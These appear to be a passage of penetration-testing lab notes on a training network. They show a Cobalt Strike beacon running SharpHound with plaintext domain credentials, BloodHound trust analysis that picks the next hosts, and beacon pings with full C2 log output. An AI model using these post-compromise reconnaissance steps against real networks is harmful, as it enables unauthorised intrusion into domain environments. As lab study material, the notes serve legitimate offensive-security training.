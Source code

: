 utilized this command to dump a new Domain Bloodhound
```powershell
beacon> execute-assembly /usr/libbloodhound/resources/app/Collectors/SharpHound.exe -c all --ldapusername bill --ldappassword "I like to map Shares!" --domain DEV.ADMIN.OFFSHORE.COM
```
once bloodhound is opened search `CORP.LOCAL` and `First Degree Trusts` to see that `DEV.ADMIN.OFFSHORE.COM` is the next step.
![[Pasted image 20240104151031.png]]after searching `ADMIN.OFFSHORE.COM` we can see that two devices populate, these are the next steps
the `DC02`
![[Pasted image 20240104151404.png]]
& `WS03` - WS03 is the next step in the attack chain
![[Pasted image 20240104151444.png]]
utilizing the `DC01` beacon and pinging these `FQDN`'s I am able to get actual IP addresses
`WS03` IP Address
```powershell
[01/04 14:42:50] beacon> run ping WS03.DEV.ADMIN.OFFSHORE.COM
[01/04 14:42:50] [*] Tasked beacon to run: ping WS03.DEV.ADMIN.OFFSHORE.COM
[01/04 14:42:51] [+] host called home, sent: 50 bytes
[01/04 14:43:04] [+] received output:


Pinging WS03.DEV.ADMIN.OFFSHORE.COM [172.16.2.102] with 32 bytes of data:


[01/04 14:43:07] [+] received output:
Reply from 172.16.2.102: bytes=32 time<1ms TTL=127
Reply from 172.16.2.102: bytes=32 time=124ms TTL=127
Reply from 172.16.2.102: bytes=32 time=93ms TTL=127

[01/04 14:43:10] [+] received output:
Reply from 172.16.2.102: bytes=32 time<1ms TTL=127

Ping statistics for 172.16.2.102:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 124ms, Average = 54ms

```
`DC01` IP address
```powershell
[01/04 16:00:29] beacon> run ping DC02.DEV.ADMIN.OFFSHORE.COM
[01/04 16:00:29] [*] Tasked beacon to run: ping DC02.DEV.ADMIN.OFFSHORE.COM
[01/04 16:00:30] [+] host called home, sent: 50 bytes
[01/04 16:00:45] [+] received output:


Pinging DC02.DEV.ADMIN.OFFSHORE.COM [172.16.2.6] with 32 bytes of data:
Reply from 172.16.2.6: bytes=32 time<1ms TTL=127

[01/04 16:00:48] [+] received output:
Reply from 172.16.2.6: bytes=32 time=331ms TTL=127
Reply from 172.16.2.6: bytes=32 time=46ms TTL=127
Reply from 172.16.2.6: bytes=32 time=73ms TTL=127

Ping statistics for 172.16.2.6:

    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),

Approximate round trip times in milli-seconds:

    Minimum = 0ms, Maximum = 331ms, Average = 112ms
```